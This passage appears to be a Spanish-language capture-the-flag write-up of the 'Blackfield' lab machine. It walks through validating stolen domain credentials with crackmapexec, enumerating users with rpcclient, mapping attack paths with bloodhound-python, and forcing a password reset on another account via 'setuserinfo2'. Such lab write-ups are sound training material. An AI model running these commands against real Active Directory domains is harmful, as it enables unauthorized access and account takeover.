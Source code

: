       crackmapexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight'
      SMB    10.10.10.192    445    DC01     [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local)
      SMB    10.10.10.192    445    DC01     [+] BLACKFIELD.local\suppoort:#00^BlackKnight

      ES VALIDA!!!

## [](##header-2)Enumeracion con credenciales validas

     rpcclient -U "support%#00^BlackKnight" 10.10.10.192
     rpcclient $> enumdomusers
     rpcclient $> enumdomgroups
     rpcclient $> querygroupmem 0x200
        rid:[0x1f4] attr:[0x7]
     rpcclient $> queryuser 0x1f4 -> de esta manera podemos enumerar gran parte de los usuarios del dominio

tenemos contraseñas validas pero no nos podemos conectar de manera remota a la maquina, en este caso vamos a
utilizar una herramienta muy conocida en este campo de AD que es el famoso Bloodhound. La mayoria de las 
veces se corre bloodhound una vez dentro de la maquina pero en esta vamos a hacerlo con bloodhound-python

## [](header-2)Bloodhound-Python

    bloodhound-python -c all -u 'support' -p '#00^BlackKnight' -ns 10.10.10.192 -dc dc01.blackfield.local -d blackfield.local


## [](header-2)Iniciando neo4j & bloodhound

    neo4j console
    bloodhound

- Una vez dentro de bloodhound vamos a cargar toda la data que nos volco bloodhound-python, esto nos
respresentara de manera grafica las rutas por donde debemos entrar o atacar y convertirnos en administradores
del dominio

1. Find Shortest Paths to Domain Admins
2. Find Paths from Kerberoastable Users
3. Find AS-REP Roastable Users

- vemos que el usuario support es asreproasteable. Le damos un clic derecho al usuario y lo seteamos a Mark User as Owned.
Vamos a Node Info y miramos donde hay 1. Vemos que el usuario support puede forzar un cambio de contraseña al usuario audit2020 -> es decir que tiene privilegios
sobre la maquina audit2020

no tenemos acceso a la maquina pero existe un metodo para cambiar la contraseña por 

    net rpc password -> o con rpcclient
    rpcclient -U "support%#00^BlackKnight" 10.10.10.192
    rpcclient $> setuserinfo2 audit2020 24 atreus123!
